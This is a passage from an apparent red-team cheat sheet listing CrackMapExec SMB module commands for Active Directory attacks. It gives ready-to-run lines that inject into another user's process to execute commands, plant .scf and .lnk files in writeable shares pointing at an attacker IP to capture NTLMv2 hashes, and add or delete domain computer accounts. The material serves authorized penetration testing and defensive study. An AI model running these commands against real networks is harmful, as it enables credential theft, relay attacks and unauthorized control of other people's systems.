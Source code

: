 Execute remote commands on behalf of another user with an active session on the remote target, through Process Injection.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <ip> -u <user> -p <password> -M pi -o PID=<target_process_pid> EXEC=<command>
```

## Scuffy (.scf file in share)
#assessment/AD #attack_type/Relay #port/445 #port/139 #protocol/smb #access/Admin

Drop a .scf file in all writeable shares to trigger a SMB authentication (or at least a NTLMv2 hash disclosure).

```bash
cme smb <ip> -u <user> -p <password> -M scuffy -o NAME=.thumbs.db SERVER=<attacker_ip>
```

## Slinky (.lnk file in share)
#assessment/AD #attack_type/Relay #port/445 #port/139 #protocol/smb #access/Admin

Drop a .lnk file in all writeable shares to trigger a SMB authentication (or at least a NTLMv2 hash disclosure).

```bash
cme smb <ip> -u <user> -p <password> -M slinky -o NAME=.thumbs.db SERVER=<attacker_ip>
```

## Clean up Scuffy/Slinky
#assessment/AD #attack_type/Relay #port/445 #port/139 #protocol/smb #access/Admin

Clean up all .scf files dropped with scuffy in all writeable shares.

```bash
cme smb <ip> -u <user> -p <password> -M <scuffy_or_slinky> -o NAME=.thumbs.db CLEANUP=true
```

## Add a domain computer
#assessment/AD #attack_type/Other #port/445 #port/139 #protocol/smb #access/Domain_user

Allow to add a domain computer account.

```bash
cme smb <ip> -u <user> -p <password> -M add-computer -o NAME=<name> PASSWORD=<machine_password>
```

## Delete a domain computer
#assessment/AD #attack_type/Other #port/445 #port/139 #protocol/smb #access/Domain_user

Allow to delete a domain computer account.

```bash
cme smb <ip> -u <user> -p <password> -M add-computer -o NAME=<name> DELETE=True
```
